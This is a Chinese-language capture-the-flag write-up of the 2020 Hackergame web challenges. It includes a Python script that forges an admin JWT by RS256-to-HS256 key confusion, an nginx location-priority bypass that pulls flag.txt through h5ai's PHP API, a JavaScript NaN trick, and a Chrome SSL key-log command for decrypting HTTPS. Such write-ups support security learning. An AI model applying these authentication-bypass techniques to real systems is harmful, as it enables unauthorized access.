



2020_Hackergame Web¶
签到¶
把number拉到1 即可拿到flag
http://202.38.93.111:10000/?number=0.16451
2048¶
开着burp打游戏
游戏结束发现请求/getflxg?my_favorite_fruit=
到js里面去找getflxg

> ('a'+ +'a').toLowerCase();
'anan'
> ('a'+ +'b').toLowerCase();
'anan'
JavaScript NaN 属性
定义和用法
NaN 属性是代表非数字值的特殊值。该属性用于指示某个值不是数字。可以把 Number 对象设置为该值，来指示其不是数字值。
提示：请使用 isNaN() 全局函数来判断一个值是否是 NaN 值。
/getflxg?my_favorite_fruit=banana
普通的身份认证器¶
扫目录 发现/docs 用的Python FastAPI起的
在 /debug 发现密钥 猜测思路就是RS256->HS256
脚本小子 一把梭
#!/usr/bin/env python
import jwt
import base64
import time
# public = open('1.txt', 'r').read()
public = "-----BEGIN RSA PUBLIC KEY-----\nMIICCgKCAgEAn/KiHQ+/zwE7kY/Xf89PY6SowSb7CUk2b+lSVqC9u+R4BaE/5tNF\neNlneGNny6fQhCRA+Pdw1UJSnNpG26z/uOK8+H7fMb2Da5t/94wavw410sCKVbvf\nft8gKquUaeq//tp20BETeS5MWIXp5EXCE+lEdAHgmWWoMVMIOXwaKTMnCVGJ2SRr\n+xH9147FZqOa/17PYIIHuUDlfeGi+Iu7T6a+QZ0tvmHL6j9Onk/EEONuUDfElonY\nM688jhuAM/FSLfMzdyk23mJk3CKPah48nzVmb1YRyfBWiVFGYQqMCBnWgoGOanpd\n46Fp1ff1zBn4sZTfPSOus/+00D5Lxh6bsbRa6A1vAApfmTcu026lIb7gbG7DU1/s\neDId9s1qA5BJpzWFKO4ztkPGvPTUok8hQBMDaSH1JOoFQgfJIfC7w2CQe+KbodQL\n3akKQDCZhcoA4tf5VC6ODJpFxCn6blML5cD6veOBPJiIk8DBRgmt2AHzOUju+5ns\nQcplOVxW5TFYxLqeJ8FPWqQcVekZ749FjchtAwPlUsoWIH0PTSun38ua8usrwTXb\npBlf4r0wz22FPqaecvp7z6Rj/xfDauDGDSU4hmn/TY9Fr+OmFJPW/9k2RAv7KEFv\nFCLP/3U3r0FMwSe/FPHmt5fjAtsGlZLj+bZsgwFllYeD90VQU8Ds+KkCAwEAAQ==\n-----END RSA PUBLIC KEY-----\n"
print(jwt.encode({"sub":"admin"}, key=public, algorithm='HS256'))
超简易的网盘服务器¶
给了dockerfile 和 nginx.conf 使用的是h5ai网盘服务最新版 排除现场挖0day 那就大概率的nginx错误配置了
# 根目录是私有目录，使用 basic auth 进行认证，只有我（超极致的小 C)自己可以访问
location / {
auth_basic "easy h5ai. For visitors, please refer to public directory at `/Public!`";
auth_basic_user_file /etc/nginx/conf.d/htpasswd;
}
# Public 目录是公开的，任何人都可以访问，便于我给大家分享文件
location /Public {
allow all;
index /Public/_h5ai/public/index.php;
}
# PHP 的 fastcgi 配置，将请求转发给 php-fpm
location ~ \.php$ {
fastcgi_pass 127.0.0.1:9000;
fastcgi_index index.php;
fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
include fastcgi_params;
}
对于一个进入 Nginx 的请求来讲，其 URI 可能符合多个 location 的匹配条件，但这条请求最终只会被一个 location 逻辑所处理（重定向不算），那么，匹配时肯定有优先级之分。Nginx 的匹配逻辑是这样的：
location = expression {} `精准匹配`，只有 URI 和 expression 完全相同，才算匹配成功；
location expression {} `普通匹配`，只要 URI 前部分的字符与 expression 相同就算匹配成功；
location ^~ expression {} `普通匹配`，只要 URI 前部分字符与 expression 相同就算匹配成功；
location ~ regex {} `正则匹配`（区分大小写）;
location ~* regex {} `正则匹配`（不区分大小写）;
try
curl -v http://host/a.html
location /zzp/ {
alias /data/nginx/zzp/exact/;
}
location ~ ^/zzp/(.*\.html)$ {
alias /data/nginx/zzp/regex/$1;
}
/data/nginx/zzp/regex/
所以 location ~ \.php$ 规则比 location / 有更高的优先级
可以直接使用网站根目录下的文件 /_h5ai/public/index.php
然后再找个h5ai的api 查看下载文件
查看目录下文件
/_h5ai/public/index.php
{"action":"get","items":{"href":"/","what":1}}
下载
action=download&as=flag.txt.tar&type=php-tar&baseHref=/&hrefs=&hrefs%5B0%5D=/flag.txt
参考链接 https://www.cnblogs.com/willgarden/p/7908374.html
超安全的代理服务器¶
找到 Secret¶
Wireshark 抓取 Chrome HTTPS PUSH流量 https://juejin.im/post/6844904006620282887
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --user-data-dir=/tmp/chrome --ssl-key-log-file=/tmp/.ssl-key.log

